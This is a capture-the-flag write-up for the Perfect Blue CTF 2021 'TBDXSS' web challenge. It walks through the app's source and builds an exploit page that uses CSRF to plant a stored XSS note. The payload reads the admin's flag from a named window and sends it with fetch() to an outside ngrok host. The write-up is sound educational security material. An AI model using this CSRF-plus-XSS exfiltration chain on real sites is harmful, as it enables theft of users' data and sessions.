

# TBDXSS

This was the first web challenge in the Perfect Blue CTF 2021.

An advanced web CTFer would likely create a very short writeup for this challenge.
We're definitely not advanced so we'll try to spell things out a little verbosely here in hopes it will be educational to some.


[https://tbdxss.chal.perfect.blue/](https://tbdxss.chal.perfect.blue/)

## Play
A good first step is always to play around with the app and make obsevations on its behavior.

### GET, POST /
On the default page, you can enter a note and submit it:


We noticed that the response from submitting this note set this cookie:

```
set-cookie: session=eyJub3RlIjoidGVzdCBub3RlIn0.YWTZlQ.MDGimiI7SXUoUtHs1OtP-xATZyA; Secure; HttpOnly; Path=/; SameSite=Lax
vary: Cookie
```

Notice the cookie has three components. The first component looks like JSON in base64. (the eyJ is a dead giveaway)

To confirm, we ran this on our mac:

```
echo -n 'eyJub3RlIjoidGVzdCBub3RlIn0' | base64 -D
```

This output: `{"note":"test note`

It is common to have missing text at the end due to the missing `=` characters that base64 uses for padding (but the cookie doesn't). Let's add one:

```
echo -n 'eyJub3RlIjoidGVzdCBub3RlIn0=' | base64 -D
```
This time we get: `{"note":"test note"}`

Note: Sometimes you have to add two `=`s to get the correct output.

We can tell from this that the note we entered is simply encoded into the session cookie and returned back to us.

### GET /note
Clicking the Get Note link, as expected, returns the note we just entered:



So `/note` simply returns back to us whatever `"note"` value is hiding inside the base64 json `session` cookie it receives.

### POST / XSS ?

We notice we can POST a note that contains a script like `<script>alert(42)</script>`, and when we then view that note, the XSS will run in our browser.

We also notice this POST is not protected from CSRF (cross-site request forgery) which means a page we host "could" successfully perform a POST against this endpoint.

### GET, POST /report
Clicking on Report Link we get:


Here we can POST a URL and have the "admin" visit that page.  As given by the challenge description, the flag is the admin's note.

# Beginnings of a Plan

We haven't yet studied the available source code but we can already make some interesting observations.

If we POSTed `https://tbdxss.chal.perfect.blue/note` then the admin would "visit" their own note page which would hold the flag. However, that doesn't do us any good since we can't exfiltrate it.

This means we'll need to end up hosting our own page and submitting the URL to that page.

We know that `<script>` on our page can use:
```
window.open('https://tbdxss.chal.perfect.blue/note')
```
to open a new browser window (assuming popup blockers are disabled) that will then contain the flag.  However due to **CORS** rules (google it) our page will not be able to read any content of that window **even though** we opened it.

## Memory of a Past Challenge
This challenge reminded us of a similar challenge in a previous CTF that we solved by using iframes.

In that solution we did something like the following:

1. Posted a URL to a page we hosted.
2. That page had an iframe whose src loaded the note/flag into it.
3. Our script on that page, after a slight delay, POSTed an XSS exploit.
4. After another slight delay, our script inserted a second iframe into the DOM which loaded the note again.
5. This time the second iframe had our XSS payload and the script inside of there used XFS (cross frame scripting) to reach up to its parent (our page) and then down into the first iframe to read the flag which it could then exfiltrate. This is allowed since both iframes have the same origin so CORS rules allow them to "see each other's content".

Our hopes of reusing this technique were dashed when we noticed this response header:

```
x-frame-options: DENY
```

This is a response header that specifically tells the browser: "Do not allow this page to be loaded into a `<frame>` or `<iframe>` element".

So we needed another approach.

## Windows instead of iframes?

We decided to try for the same approach but to, somehow, use windows instead of iframes.

So, our rough plan at this point was:

1. Post a URL to a page we host.
2. That page will have a script which opens `https://tbdxss.chal.perfect.blue/note` in a new window.  That window **will have the flag** in it.
3. The script will then use CSRF to POST an XSS payload.
4. After a delay to allow that POST to complete, our script will change the current window to `https://tbdxss.chal.perfect.blue/note` which will then cause our XSS exploit to run.
5. That exploit will, somehow, talk to the previously opened window (CORS should allow it since both windows are now from the same origin), read its flag and exfiltrate it.

We were a little unsure how the window communication would pan out but that was our thinking at this point.

# Study the Source

The web server code is python in a file called `app.py`. 

```
from flask import Flask, request, session, jsonify, Response
import json
import redis
import random
import os
import time

app = Flask(__name__)
app.secret_key = os.environ.get("SECRET_KEY", "tops3cr3t")

app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax',
)

HOST = os.environ.get("CHALL_HOST", "localhost:5000")

r = redis.Redis(host='redis')

@app.after_request
def add_XFrame(response):
    response.headers['X-Frame-Options'] = "DENY"
    return response


@app.route('/change_note', methods=['POST'])
def add():
    session['note'] = request.form['data']
    session.modified = True
    return "Changed succesfully"

@app.route("/do_report", methods=['POST'])
def do_report():
    cur_time = time.time()
    ip = request.headers.get('X-Forwarded-For').split(",")[-2].strip() #amazing google load balancer

    last_time = r.get('time.'+ip) 
    last_time = float(last_time) if last_time is not None else 0
    
    time_diff = cur_time - last_time

    if time_diff > 6:
        r.rpush('submissions', request.form['url'])
        r.setex('time.'+ip, 60, cur_time)
        return "submitted"

    return "rate limited"

@app.route('/note')
def notes():
    print(session)
    return """
<body>
{}
</body>
    """.format(session['note'])

@app.route("/report", methods=['GET'])
def report():
    return """
<head>
    <title>Notes app</title>
</head>
<body>
    <h3><a href="/note">Get Note</a>&nbsp;&nbsp;&nbsp;<a href="/">Change Note</a>&nbsp;&nbsp;&nbsp;<a href="/report">Report Link</a></h3>
        <hr>
        <h3>Please report suspicious URLs to admin</h3>
        <form action="/do_report" id="reportform" method=POST>
        URL: <input type="text" name="url" placeholder="URL">
        <br>
        <input type="submit" value="submit">
        </form>
    <br>
</body>
    """

@app.route('/')
def index():
    return """
<head>
    <title>Notes app</title>
</head>
<body>
    <h3><a href="/note">Get Note</a>&nbsp;&nbsp;&nbsp;<a href="/">Change Note</a>&nbsp;&nbsp;&nbsp;<a href="/report">Report Link</a></h3>
        <hr>
        <h3> Add a note </h3>
        <form action="/change_note" id="noteform" method=POST>
        <textarea rows="10" cols="100" name="data" form="noteform" placeholder="Note's content"></textarea>
        <br>
        <input type="submit" value="submit">
        </form>
    <br>
</body>
    """
```

Interestingly, when you submit a URL for the admin to visit, it queues up your URL into redis and there is a `bot.js` (running in nodejs, completely separate from the python app.py) that will pickup the URL and use a library called puppeteer to open it in a Chromium browser.

Here's the `bot.js` source:
```
const redis = require('redis');
const r = redis.createClient({
    port      : 6379,               // replace with your port
    host      : 'redis',        // replace with your hostanme or IP address
})

const puppeteer = require('puppeteer');

async function browse(url){

    console.log(`Browsing -> ${url}`);
    const browser = await (await puppeteer.launch({
        headless: true,
    args: ['--no-sandbox', '--disable-gpu']
    })).createIncognitoBrowserContext();

    const page = await browser.newPage();
    await page.setCookie({
        name: 'session',
        value: process.env.CHALL_COOKIE,
        domain: process.env.CHALL_HOST,
        sameSite: "Lax",
        secure: true,
    });

    try {
        const resp = await page.goto(url, {
            waitUntil: 'load',
            timeout: 20 * 1000,
        });
    } catch (err){
        console.log(err);
    }

    await page.close();
    await browser.close();

    console.log(`Done visiting -> ${url}`)

}

function main() {
    r.blpop(['submissions', 0], async (_, submit_url) => {
        let url = submit_url[1];
        await browse(url);
        main();
    });
}


console.log("XSS Bot ready");
main()
```

We were not sure how `page.goto(url ...` behavior would work exactly.  Our best guess/hope was that it would load our page and just sit there for 20 seconds and then kill the browser.

**Spoiler:** That is NOT what it does at all, but we'll proceed with that assumption for now to better trace our path to eventual success.


# Proof of Concept in our Browser

Rather than fire up this challenge in docker, we thought we'd just build our exploit page, host it, and then test it in our own browser window to see if it works.

Let's try that and see what happens.

We like to host our web pages using the **Express** library in nodejs and expose it to the Internet using ngrok.

If you haven't used ngrok before, definitely get a free account and play around with it. It is incredibly useful.

We'll host a local web server on port 5050, so once you have ngrok installed you can run it like this:

```
ngrok http http://localhost:5050
```
That'll give you some output like:
```
ngrok by @inconshreveable                                                                                                                                            (Ctrl+C to quit)

Session Status                online
Account                       YOURNAMEHERE (Plan: Free)
Update                        update available (version 2.3.40, Ctrl-U to update)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://8709-68-51-145-201.ngrok.io -> http://localhost:5050
Forwarding                    https://8709-68-51-145-201.ngrok.io -> http://localhost:5050
```

This means that anyone on the Internet can now browse to **https://8709-68-51-145-201.ngrok.io/ANYTHING** and ngrok will pipe the request in to your local web server running on port 5050!

Notice it also gives you a Web Interface on localhost port 4040 which shows you ALL traffic to your site.  This is great for exfiltration!

Here are our web server files.  Note that they make use of our uniquely-assigned ngrok domain name:

[package.json]
```
{
  "name": "localwebserver",
  "version": "1.0.0",
  "description": "",
  "dependencies": {
    "express": "^4.17.1"
  }
}
```
[app.js]
```
let express = require('express');
let app = express();

app.get('/pb', function(req, res) {
    res.sendFile(__dirname + '/pb.html');
});

let port = 5050;
let server = app.listen(port);
console.log('Local server running on port: ' + port);
```

[pb.html]
```
<body>
    <p>hello world</p>
    <form action="https://tbdxss.chal.perfect.blue/change_note" id="noteform" method=POST target="_blank">
        <textarea id="payload" rows="10" cols="100" name="data" form="noteform"></textarea>
        <input type="submit" value="submit">
    </form>
    <script>
        // open new window that has the flag and give it a "name" of "flagWindow"
        window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');

        // this POSTs the above form with an XSS note value to read and exfiltrate the flag
        // note: we must use \x3C as an alternate form of the "less than" character to avoid
        //       browser parser confusion inside
        payload.value = "\x3Cscript>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag);\x3C/script>";
        noteform.submit();

        // Run this code after a 5 second delay to ensure the above POST has completed
        // before we reload our XSS payload into *this* page.
        setTimeout(()=> {
            // This loads our previously-posted XSS which will read the flag from the
            // previously-opened window and exfiltrate it.
            window.location.href = 'https://tbdxss.chal.perfect.blue/note';
        }, 5000)
    </script>
</body>
```

To run this locally, you'll need node installed. You can install the dependencies in `package.json` by running:
```
npm install
```

This will create a `node_modules` folder containing the transitive dependencies.

You can run the web server like this:

```
node app.js
```

## Dry Run #1
We then tried this payload by opening the challenge in our web browser and putting in some note value like `sam`.
We then opened up a new tab and pasted in this URL:

`https://8709-68-51-145-201.ngrok.io/pb`

Here's what happened:

1. Browser loaded our `/pb` page served up by our `app.js`.
2. `window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');` ran which opened a new window with a name of `flagWindow` which displays our note (`sam`).
3. `payload.value="..."` ran which places our XSS payload into the form field
4. `noteform.submit()` ran which submitted (using CSRF) our payload to the challenge server
5. Because the form had `target="_blank"` in it, the form response showed up in a new window which is **really important** since it allows the script in the current window to continue running.
6. After 5 second (thanks to `setTimeout()`) we navigate the current window to `https://tbdxss.chal.perfect.blue/note`
7. This loads our previously-posted XSS payload which then begins to run.
8. `let flagWindow = window.open('', 'flagWindow')` runs which doesn't actually open a new window. It just latches onto the previously-opened window with that name and stores the window reference into `flagWindow`.
9. `let flag = flagWindow.document.documentElement.innerText;` runs which reaches into that window to read the flag out of the DOM. Again, this is allowed under the rules of CORS since the current window and the `flagWindow` are from the same origin.
10. `fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag)` runs which exiltrates the flag.

We can see this exfiltration in our localhost:4040 window thanks to ngrok.


So... it worked!  But, remember, we are doing this inside our own browser rather than the pupeteer controled browser.

## Try for the flag #1

When we submitted our URL to the challenge server... it didn't work.  We saw the bot.js browser request our page BUT we didn't get any other traffic.

## What Happened?

By doing some reading about puppeteer we learned that our earlier assumption was wrong.

This code:
```
        const resp = await page.goto(url, {
            waitUntil: 'load',
            timeout: 20 * 1000,
        });
```

**actually** kills the browser as soon as the page is considered to be "loaded".

Remember that setTimeout() call that delays for 5 seconds?  Well, it turns out that the browswer considers itself "loaded" even when there are such timers pending. So, all of our script ran EXCEPT the all-important line hiding inside the setTimeout().

At first we tried to just get rid of the setTimeout() but, sure enough, that doesn't give the CSRF payload time to complete and we end up loading the original note rather than our XSS note.

## Inspiration

Nolan on our team had the key idea that would save the day here.

Rather than using setTimeout(), let's use this:

```

```

Since we have our own web server, let's craft an endpoint that sleeps for 5 seconds before returning a 404 response.

If we then use that with an `` tag as shown above, then the onerror script will be delayed by 5 seconds.  As it turns out, the page is not considered to be "loaded" while a graphic like this is still pending and so it keep the puppeteer browser alive!

Here's what we added to `app.js` for this exotic endpoint we needed:

```
app.get('/delayThen404', function(req, res) {
    setTimeout(()=> {
            res.sendStatus(404);
            },
            5000)
});
```

Then, in our payload above, we took out the `setTimeout()` code entirely and added this under the `</script>`:

```

```

We tested this in our browser again first just to make sure it still works there.

# Flag Attempt #2

Armed with this improved exploit, we tried again by submitting:

```
https://8709-68-51-145-201.ngrok.io/pb
```

to the challenge server.

This time our ngrok localhost:4040 page showed some hits and we got the flag!


# Summary

This was a great challenge for us. We totally would not have solved it without having had some similar challenge in our past memory upon which to base an exploit.

As always, we recommend:

1. Work on a challenge and take good notes on what you've tried.
2. If you happen to not solve it, go read a writeup and update your notes.
3. Next time you see a similar challenge, go check your notes to see if they will help.

Repeating this pattern over and over will definitely help you solve more challenges over time.


